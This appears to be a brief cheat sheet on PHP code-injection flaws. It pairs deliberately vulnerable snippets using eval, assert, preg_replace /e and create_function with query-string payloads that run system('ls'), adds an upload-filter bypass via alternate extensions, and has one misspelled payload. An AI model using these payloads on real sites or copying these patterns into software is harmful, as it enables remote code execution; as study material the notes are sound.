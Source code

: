 NOTE : `\#` needs to be encoded in each case they are used through urls

Beware of the following functions : 
##eval

<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>

attack = ?name=";syslem("ls");#

##assert()  - identical to eval()

<?php
  assert(trim("'".$_GET['name']."'"));
  echo "Hello ".htmlentities($_GET['name']);
?> 

attack = ?name='.system("ls");#

##preg_replace (with /e modifier) => preg_replace('/.*/e',...) - /e does an eval() on the match

<?php
    echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>

attack = ?pattern=/.*/e&new=system("ls")&base=something

##create_function

<?php
	usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
?>

attack = ?order=id);}system('ls');#

include[_once] / require[_once] 

WildCard :  A .php file can be uploaded bypassing preg_match('/\.php$/',$file) by name the file as .php2 or 	            .php.blah so that apche doesn't know to handle the extension move to next one and run the php code 
